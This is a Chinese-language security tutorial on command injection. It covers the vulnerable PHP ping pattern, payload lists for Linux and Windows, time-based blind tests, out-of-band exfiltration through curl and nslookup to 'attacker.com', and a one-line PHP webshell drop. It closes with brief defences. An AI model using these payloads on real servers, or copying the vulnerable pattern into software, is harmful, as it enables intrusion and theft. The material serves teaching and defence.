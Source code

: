 # 命令注入

````markdown
# 命令注入

## 一、漏洞定义

命令注入（Command Injection）是指攻击者通过可控参数将系统命令注入到 Web 应用的后台执行环境中，导致服务器执行攻击者构造的任意系统命令。其本质是开发者将用户输入拼接进系统命令字符串中，并调用 shell 或系统 API 执行，未做有效过滤。

---

## 二、常见类型分类

| 类型             | 描述                                                       |
|------------------|------------------------------------------------------------|
| 基本命令注入     | 利用 `;`, `&&`, `|` 等符号拼接执行多个命令                |
| 盲命令注入       | 没有回显结果，通过响应延迟或状态推断是否注入成功          |
| 文件型命令注入   | 将结果写入可访问文件（如日志、Web 路径）                  |
| 带外命令注入     | 利用 curl、ping、dns 等命令将执行结果回传给攻击者         |

---

## 三、漏洞原理详解

后台代码直接将用户输入拼接到 shell 命令中并执行，例如：

```php
<?php
$ip = $_GET["ip"];
system("ping -c 4 " . $ip);
?>
````

若用户输入为 `8.8.8.8; whoami`，则实际执行命令为：

```bash
ping -c 4 8.8.8.8; whoami
```

攻击者即可执行任意系统命令。

***

### 四、典型实例（含 POC）

#### 1. Linux 环境命令注入

**URL 示例**

```http
http://example.com/ping.php?ip=127.0.0.1;id
```

**Payload 列表**

```bash
127.0.0.1;id
127.0.0.1 && whoami
127.0.0.1 | ls /var/www/html
127.0.0.1 `cat /etc/passwd`
```

***

#### 2. Windows 环境命令注入

```http
http://example.com/ping.php?ip=127.0.0.1&whoami
```

Payload 示例：

```cmd
127.0.0.1 & whoami
127.0.0.1 | dir
127.0.0.1 && type C:\Windows\System32\drivers\etc\hosts
```

***

#### 3. 盲注（基于时间）

```http
http://example.com/ping.php?ip=127.0.0.1; sleep 5
```

若响应明显延迟 5 秒，则说明注入成功。

***

#### 4. 带外命令注入（OOB）

```http
http://example.com/ping.php?ip=127.0.0.1; curl attacker.com/`whoami`
```

或：

```bash
127.0.0.1 | nslookup `whoami`.attacker.com
```

通过监听 DNS/HTTP 请求回传数据。

***

#### 5. 文件型命令注入（写入 WebShell）

```bash
127.0.0.1; echo "<?php system(\$_GET['cmd']); ?>" > /var/www/html/shell.php
```

然后通过访问 `http://example.com/shell.php?cmd=whoami` 实现远程命令执行。

***

### 五、利用方式

* 读取服务器敏感信息（如 `/etc/passwd`, `/etc/shadow`）
* 获取 Webshell 或反弹 shell 实现远程控制
* 权限驻留、横向移动、提权、攻击内网其他服务

***

### 六、防御与修复方式

* 参数值过滤敏感字符(黑名单)
* 优先使用安全函数（如 `execvp`, `subprocess.run` 带数组参数）
* 对输入参数进行格式校验(白名单)
* 限制 Web 进程权限（www-data、nginx）

***
